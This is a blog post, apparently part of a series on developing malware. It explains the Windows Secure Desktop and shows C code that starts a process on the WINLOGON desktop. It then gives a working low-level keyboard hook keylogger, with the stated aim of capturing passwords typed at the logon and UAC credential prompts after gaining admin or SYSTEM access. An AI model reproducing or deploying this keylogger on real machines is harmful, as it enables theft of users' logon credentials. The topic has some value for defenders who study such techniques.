

## Introduction
This is the seventh post of a series which regards the development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  
Today we will talk about "Secure Desktop" on Windows and implement a keylogger.

## Secure Desktop
Secure Desktop is Windows feature that isolates system processes' graphical interface elements (like windows, prompts etc.). Basically it's a different desktop with access limited to system integrity processes.

If UAC is configured to use Secure Desktop (`ConsentPromptBehaviorUser = 1` and `ConsentPromptBehaviorAdmin = 1 || 2`), consent and credential prompts are presented on this desktop. This protects these prompts from malicious code running with user privileges. Also, `Winlogon` process, which handles user logon, run on this desktop.

Actually, `CreateProcess` API function allows to create a process assigned to any desktop (given the appropriate permissions are present) with `STARTUPINFO` parameter. It goes like this:

```c
STARTUPINFOA startupInfo;
ZeroMemory(&startupInfo, sizeof(startupInfo));
startupInfo.cb = sizeof(startupInfo);
PROCESS_INFORMATION processInfo;
ZeroMemory(&processInfo, sizeof(processInfo));

char desktop[] = "WINSTA0\\WINLOGON";
startupInfo.lpDesktop = desktop;

CreateProcessA(currentProcessPath, NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &startupInfo, &processInfo);
```

`WINSTA0\DEFAULT` is the default desktop and `WINSTA0\WINLOGON` is the Secure Desktop.

## Keylogger
A regular keylogger running with low user privileges won't be able to access the Secure Desktop. However if we can elevate to SYSTEM, we will be able to run the keylogger code in the `WINLOGON` desktop.

Typical keylogger use `SetWindowsHookEx` API with `WH_KEYBOARD_LL` hook type which monitors low-level keyboard input events. This function sets a callback function which is called on every event, in this case every keyboard input. Also, low-level hooks use message loop, which is a feature used by windows (GUI) applications to communicate.

From information passed to the hook function we can extract key status - what key was pressed or released. `WM_SYSKEYUP` and `WM_SYSKEYDOWN` messages are posted when a key is pressed while holding `Alt` key.

```c
LRESULT CALLBACK KeyboardHook(int nCode, WPARAM wParam, LPARAM lParam)
{
	KBDLLHOOKSTRUCT kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);
	int msg = 1 + (kbdStruct.scanCode << 16) + (kbdStruct.flags << 24);
	char keyName[64];
	GetKeyNameTextA(msg, keyName, 64);
	char keyState[16];
	switch (wParam)
	{
	case WM_KEYUP:
	strncpy(keyState, "Key Up\0", 16);
		break;
	case WM_KEYDOWN:
	strncpy(keyState, "Key Down\0", 16);
		break;
	case WM_SYSKEYUP:
	strncpy(keyState, "Sys Key Up\0", 16);
		break;
	case WM_SYSKEYDOWN:
	strncpy(keyState, "Sys Key Down\0", 16);
		break;
	}
	printf("Captured: %s \t %s\n", keyName, keyState);
	return CallNextHookEx(0, nCode, wParam, lParam);;
}

int main()
{
	SetWindowsHookExA(WH_KEYBOARD_LL, KeyboardHook, NULL, 0);
	while (GetMessageA(0, 0, 0, 0));
}
```

And that's about it:



## Summary
With admin access on a Windows machine we can run a keyloggen on `Winlogon` desktop to capture passwords on the Secure Desktop.
